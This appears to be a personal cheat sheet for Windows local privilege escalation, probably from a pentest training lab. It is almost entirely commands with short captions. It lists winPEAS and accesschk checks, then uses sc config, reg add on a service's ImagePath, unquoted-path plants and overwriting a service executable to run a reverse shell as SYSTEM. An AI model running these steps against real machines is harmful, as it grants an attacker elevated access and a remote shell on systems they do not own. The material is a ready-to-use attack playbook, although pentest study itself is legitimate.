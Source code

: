 ```
> winpeas.exe quiet servicesinfo
```
check output with accesscheck if needed (omit 'w' if write not needed)
```
> .\accesschk.exe /accepteula -uwcqv CURRENT_USER SERVICE_NAME
```
sc to get current config/dependencies
```
> sc qc SERVICE_NAME
```
sc to get current status
```
> sc query SERVICE_NAME
```
sc to change binary path to reverse shell
```
> sc config SERVICE_NAME binpath= '\path\to\reverse\shell.exe'
```
restart/start service as needed
```
> net start SERVICE_NAME
```

#### unquoted service paths
if winpeas spots unquoted service path first check start/stop permissions
```
> .\accesschk.exe /accepteula -ucqv CURRENT_USER SERVICE_NAME
```
check for write permissions on directoy in current binary path
```
> .\accesschk.exe /accepteula -uwdq C:\ # continue with other directories in path
```
copy reverse_shell.exe to directory with write permissions and rename as first first of the next directory
```
> copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
#### weak registry permissions
verify permissions (PS or accesschk)
```
PS > Get-Acl HKLM:\SYSTEM\CurrentControlSet\Services\SERVICE_NAME\ | Format-List
```
or
```
> .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```
check if can start service
```
> .\accesschk.exe /accepteula -uwcqv USER SERVICE_NAME
```
check current values in service registry entry
```
> reg query HKLM\SYSTEM\CurrentControlSet\services\SERVICE_NAME
```
modify ImagePath to point to reverse shell
```
> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PATH\TO\REVERSE\SHELL.EXE /f
```
#### insecure service executable
**MAKE BACKUP OF ORIGINAL EXECUTABLE**
```
> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```
overwrite original executable with reverse shell
```
> copy /Y "C:\PrivEsc\reverse.exe" "C:\Program Files\File Permissions Service\filepermservice.exe" 
```